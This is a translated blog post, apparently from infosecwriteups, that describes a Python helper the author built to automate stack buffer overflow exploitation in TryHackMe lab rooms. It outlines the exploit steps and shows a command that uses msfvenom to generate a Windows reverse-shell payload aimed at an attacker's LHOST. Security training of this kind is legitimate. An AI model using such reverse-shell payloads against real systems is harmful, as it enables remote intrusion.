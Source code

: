 # 缓冲区溢出的自动化

> 原文：<https://infosecwriteups.com/automation-of-buffer-overflow-b7252d77e72e?source=collection_archive---------2----------------------->

## Python 中我的基于堆栈的缓冲区溢出辅助程序的代码解释

在本文中，我不是在讲授缓冲区溢出，也不是在展示我用 python 编写的缓冲区溢出助手程序的演示。我要谈谈我是如何创建这个程序的。

*   (**推荐首先**了解缓冲区溢出:【https://tryhackme.com/room/bufferoverflowprep】T2
*   检查我的程序的演示:[Python 中的缓冲区溢出自动化](https://youtu.be/3nSAHeJ2YpQ)
*   缓冲区溢出辅助程序:[https://github.com/PakCyberbot/Buffer-Overflow-Assistant](https://github.com/PakCyberbot/Buffer-Overflow-Assistant)

![](img/a381d035c63fc3a41afe520c7d4fef71.png)

# 我是如何想到这个项目的？

我正在做[TryHackme Room on Buffer-Overflow](https://tryhackme.com/room/bufferoverflowprep)。我必须解决上面的 10 个任务。

![](img/1e8c5b26dea9cf210ca24e7721043fc3.png)

我通过理解基于堆栈的缓冲区溢出利用的每个步骤，手动完成了第一项任务。感谢 [Tib3rius](https://medium.com/u/16a5c5e916e4?source=post_page-----b7252d77e72e--------------------------------) 为这个房间和他的[关于缓冲区溢出的知识库](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)。在掌握了这些步骤之后，我想用我的缓冲区溢出助手来完成剩下的 9 个任务，所以我给了时间来创建它。

> 花 4 个小时创造或学习新事物比花 2 个小时做重复性的工作要好。

# 代码解释

我在我的程序中重用了 **Fuzzing** 和 **Exploit** 来自 [Tib3rius](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst) 的代码，然后首先处理程序的配色方案和简单介绍。之后，我使用了 **pyperclip** 模块来为用户自动复制 mona 命令，这样它们就可以直接粘贴了。

我为不同的任务使用了不同的配色方案，这样眼睛可以很快捕捉到它们。

![](img/a435d386a8d70e2705e7e91f8f7a8f4d.png)

绿色:自动复制到剪贴板的文本

![](img/4ca943e9efe8cf6c8687b33b3af2d585.png)

蓝色:接受用户的输入

![](img/3315b87314e5ea0b3dda6b1dac7b8df6.png)

红色:提醒用户在进一步操作之前，在抗干扰调试器中重新启动易受攻击的应用程序

我还使用了 **os.popen()** 以便程序从 Metasploit 生成有效负载，并在代码本身中使用它。

![](img/3bdc1d857cad50c516d5bb82446ed9fa.png)

使用 pattern_create ruby 脚本

![](img/a2062b56b0335871960246377d6a2f56.png)

Bofy 使用 msfvenom 生成有效载荷

当 MsfVenom 生成有效负载时，它会给出一些不用于有效负载的额外字符作为输出。所以我用 **grep** 和 **tr** Linux 命令只过滤掉十六进制数据。

```
# filter out the payload using grep and trpayload = os.popen(f"msfvenom -p windows/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} EXITFUNC=thread -b \"{badchars}\" -f c | grep -oe  '\"[\\\\0-9a-z]*\"' | tr -d '\"' | tr -d \"\\n\"").read()
```

每当 python 程序从 stdin 获取输入时，它都会对\ characters 进行转义，这意味着:

```
payload = input('Value in hex : ')      #Value in hex : \x63
# payload = '\\x61' whereas I have to give same as the input sopayload = payload.encode('utf-8').decode('unicode_escape')
# payload = '\x61'  hex in 61 is 'a' in ascii
```

Exploit()方法简单总结:

*   求 EIP 偏移(*有效载荷=生成模式*)
*   测试 EIP 偏移量(*EIP 偏移量= <偏移量>&retn =‘BBBB’*)
*   找到 bad chars(*payload = byte _ array*)
*   找到跳转点(*retn = Jump _ Point _ Address*)
*   利用(*payload = MSF venom _ payload*)

# (*更新*)我的程序结果:

完成程序后，我用它解决了剩下的 9 个任务。完成这 9 项任务只花了 15 分钟。😎

![](img/661f191d04ad1ba19ce49f719dfc7228.png)![](img/904a4cb97ee347e16822d7cc1f2bd113.png)

*注意:*我没有编写代码来验证坏字符的删除。这个程序可能有一些错误，还没有很多功能。你可以在我的 [GitHub](https://github.com/PakCyberbot) 上报告这个错误，我们非常感谢你的合作。

要了解更多信息，您可以关注我:

*   推特:[https://twitter.com/PakCyberbot](https://twitter.com/PakCyberbot)
*   领英:[https://www.linkedin.com/in/pakcyberbot/](https://www.linkedin.com/in/pakcyberbot/)
*   中:[https://pakcyberbot.medium.com/](https://pakcyberbot.medium.com/)
*   GitHub:[https://github.com/PakCyberbot](https://github.com/PakCyberbot)
*   insta gram:[https://www.instagram.com/pakcyberbot/](https://www.instagram.com/pakcyberbot/)
*   YouTube:[https://www.youtube.com/@pakcyberbot](https://www.youtube.com/@pakcyberbot)

我希望你能从这篇文章中学到一些新的东西。欢迎在下面的评论区提出反馈或建设性的批评！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！